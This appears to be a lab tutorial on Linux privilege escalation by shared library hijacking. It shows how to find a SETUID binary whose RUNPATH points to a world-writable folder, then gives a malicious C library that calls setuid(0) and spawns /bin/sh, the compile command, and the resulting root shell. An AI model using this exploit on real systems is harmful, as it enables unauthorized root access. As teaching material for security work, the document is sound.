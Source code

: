 Programs and binaries under development usually have custom libraries associated with them. Consider the following `SETUID` binary.
```shell-session
htb_student@NIX02:~$ ls -la payroll

-rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
```

We can use [ldd](https://manpages.ubuntu.com/manpages/bionic/man1/ldd.1.html) to print the shared object required by a binary or shared object. `Ldd` displays the location of the object and the hexadecimal address where it is loaded into memory for each of a program's dependencies.
```shell-session
htb_student@NIX02:~$ ldd payroll

linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /lib/x86_64-linux-gnu/libshared.so (0x00007f7f62e51000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
```

We see a non-standard library named `libshared.so` listed as a dependency for the binary. As stated earlier, it is possible to load shared libraries from custom locations. One such setting is the `RUNPATH` configuration. Libraries in this folder are given preference over other folders. This can be inspected using the [readelf](https://man7.org/linux/man-pages/man1/readelf.1.html) utility.
```shell-session
htb_student@NIX02:~$ readelf -d payroll  | grep PATH

 0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

The configuration allows the loading of libraries from the `/development` folder, which is writable by all users. This misconfiguration can be exploited by placing a malicious library in `/development`, which will take precedence over other folders because entries in this file are checked first (before other folders present in the configuration files).
```shell-session
htb_student@NIX02:~$ ls -la /development/

total 8
drwxrwxrwx  2 root root 4096 Sep  1 22:06 ./
drwxr-xr-x 23 root root 4096 Sep  1 21:26 ../
```

Before compiling a library, we need to find the function name called by the binary.
```shell-session
htb_student@NIX02:~$ cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
```

```shell-session
htb_student@NIX02:~$ ldd payroll

linux-vdso.so.1 (0x00007ffd22bbc000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
/lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000)
```

```shell-session
htb_student@NIX02:~$ ./payroll 

./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
```

We can copy an existing library to the `development` folder. Running `ldd` against the binary lists the library's path as `/development/libshared.`so, which means that it is vulnerable. Executing the binary throws an error stating that it failed to find the function named `dbquery`. We can compile a shared object which includes this function.
```c
#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 
```

The `dbquery` function sets our user id to 0 (root) and executing `/bin/sh` when called. Compile it using [GCC](https://linux.die.net/man/1/gcc).
```shell-session
htb_student@NIX02:~$ gcc src.c -fPIC -shared -o /development/libshared.so
```

Executing the binary again should display the banner and pops a root shell.
```shell-session
htb_student@NIX02:~$ ./payroll 

***************Inlane Freight Employee Database***************

Malicious library loaded
# id
uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
```
